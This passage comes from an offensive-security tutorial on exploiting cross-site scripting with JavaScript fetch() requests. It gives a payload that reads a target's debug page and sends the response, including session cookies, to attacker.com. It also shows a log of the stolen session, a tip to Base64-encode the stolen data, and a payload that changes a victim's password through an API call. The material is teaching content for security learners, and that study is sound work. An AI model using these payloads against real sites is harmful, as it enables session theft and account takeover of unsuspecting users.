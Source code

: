 {% hint style="warning" %}
In very restricted scenarios you might not be able to make an outbound connection due to the `connect-src` [#content-security-policy-csp](cross-site-scripting-xss.md#content-security-policy-csp "mention") directive. See that chapter for ideas on how to still exfiltrate data
{% endhint %}

### Forcing requests - `fetch()`

When making a `fetch()` request to the same domain you are on, cookies are _included_, even if `httpOnly` is set. This opens up many possibilities by requesting data and performing actions on the application. When making a request, the response is also readable because of the [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy), as we are on the same site as the request is going to.&#x20;

One idea to still steal cookies would be to request a page that responds with the cookie information in some way, like a debug or error page. You can then request this via JavaScript `fetch()` and exfiltrate the response:

{% code title="Payload" %}
```javascript
fetch("http://target.com/debug")  // Perform request
    .then(res => res.text())      // Read response as text
    .then(res => fetch("http://attacker.com/leak?" + res));
```
{% endcode %}

{% code title="Logs of attacker.com" %}
```log
"GET /leak?session=... HTTP/1.1" 404 -
```
{% endcode %}

{% hint style="info" %}
**Tip**: For more complex data, you can use `btoa(res)` to Base64 encode the data which makes sure no special characters are included, which you can later decode
{% endhint %}

A more common way of exploitation is by requesting personal data from a settings page or API route, which works in a very similar way as shown above.&#x20;

#### Performing actions

Performing actions on the victim's behalf can is also common and can result in a high impact, depending on their capabilities. These are often done using POST requests and may contain extra data or special headers. Luckily, [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch\_API/Using\_Fetch) allows us to do all that and more! Its second argument contains `options` with keys like `method:`, `headers:`, and `body:` just to name a few:

{% code title="Payload" %}
```javascript
fetch("http://target.com/api/change_password", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-Custom-Header": "anything"
    },
    body: JSON.stringify({
        "password": "hacked",
        "confirm_password": "hacked"
    })
})
```
{% endcode %}
